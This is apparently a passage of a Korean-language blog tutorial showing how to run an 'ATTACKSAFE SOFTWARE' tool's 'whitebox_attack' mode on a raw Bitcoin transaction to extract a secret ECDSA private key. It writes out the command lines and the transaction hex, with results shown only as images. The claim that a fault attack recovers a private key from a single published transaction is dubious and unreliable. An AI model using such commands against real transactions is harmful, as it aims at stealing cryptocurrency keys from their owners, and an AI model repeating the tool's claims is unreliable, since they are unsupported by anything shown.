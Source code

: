 

<pre class="wp-block-code"><code>./attacksafe -version</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-18.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1587"/></figure>



<p><code>"ATTACKSAFE SOFTWARE"</code>Bitcoin에 대한 모든 대중적인 공격을 포함합니다.</p>



<h2>모든 공격 목록을 실행해 보겠습니다.</h2>



<pre class="wp-block-code"><code>./attacksafe -list</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-19-1024x631.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1589"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-20-1024x631.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1590"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-21-1024x631.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1592"/></figure>



<p>그런 다음 선택<code>&nbsp;-tool: whitebox_attack</code></p>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-22-1024x276.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1594"/></figure>
